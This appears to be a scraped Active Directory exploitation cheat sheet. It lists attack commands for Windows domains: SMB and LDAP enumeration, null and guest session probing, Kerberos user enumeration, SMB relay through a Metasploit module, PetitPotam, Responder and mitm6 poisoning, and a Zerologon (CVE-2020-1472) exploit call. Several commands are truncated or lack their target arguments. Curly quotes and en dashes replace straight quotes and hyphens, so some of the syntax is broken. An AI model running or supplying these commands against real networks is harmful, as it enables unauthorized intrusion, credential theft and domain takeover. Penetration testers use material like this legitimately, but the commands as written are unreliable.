 # Active Directory Exploitation Cheat Sheet

This cheat sheet contains common enumeration and attack methods for Windows Active Directory.
 
# enumerate smb hosts
```bash
nmap -sP -p  ping scan
nmap -PN -sV –top-ports 50 –open  quick scan
nmap -PN –script smb-vuln* -p139,445  search smb vuln
nmap -PN -sC -sV  classic scan
nmap -PN -sC -sV -p- full scan
nmap -sU -sC -sV  udp scan
```
## find AD IP
nmcli dev show eth0 # show domain name & dns
nslookup -type=SRV _ldap._tcp.dc._msdcs.//DOMAIN/
zone transfert
dig axfr @
## List guest access on smb share
```bash
enum4linux -a -u “” -p “” && enum4linux -a -u “guest” -p “”
smbmap -u “” -p “” -P 445 -H && smbmap -u “guest” -p “” -P 445 -H
smbclient -U ‘%’ -L // && smbclient -U ‘guest%’ -L //
cme smb -u ” -p ” # enumerate null session
cme smb -u ‘a’ -p ” # enumerate anonymous access
```
## Enumerate ldap
nmap -n -sV –script “ldap* and not brute” -p 389
ldapsearch -x -h -s base
## Find user list
enum4linux -U | grep ‘user:’
crackmapexec smb -u -p ” –users
OSINT – enumerate username on internet

    nmap -p 88 –script=krb5-enum-users –script-args=”krb5-enum-users.realm=”,userdb=”

relay/poisoning
## find smb not signed

    nmap -Pn -sS -T4 –open –script smb-security-mode -p445 ADDRESS/MASK
    use exploit/windows/smb/smb_relay
    cme smb $hosts –gen-relay-list relay.txt

PetitPotam.py -d
responder -i eth0
mitm6 -d
zerologon
python3 cve-2020-1472-exploit.py
